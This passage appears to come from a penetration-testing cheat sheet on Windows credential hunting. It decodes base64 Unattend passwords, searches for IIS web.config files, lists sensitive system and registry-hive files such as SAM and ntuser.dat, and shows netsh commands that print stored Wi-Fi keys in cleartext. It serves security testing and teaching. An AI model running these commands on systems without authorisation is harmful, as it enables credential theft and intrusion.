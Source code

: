 Unattend credentials are stored in base64 and can be decoded manually with
base64.

```powershell
$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo="  | base64 -d
SecretSecurePassword1234*
```

The Metasploit module `post/windows/gather/enum_unattend` looks for these files.

### IIS Web config

```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

### Other files

```bat
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
```

### Wifi passwords

Find AP SSID

```bat
netsh wlan show profile
```

Get Cleartext Pass

```bat
netsh wlan show profile <SSID> key=clear
```
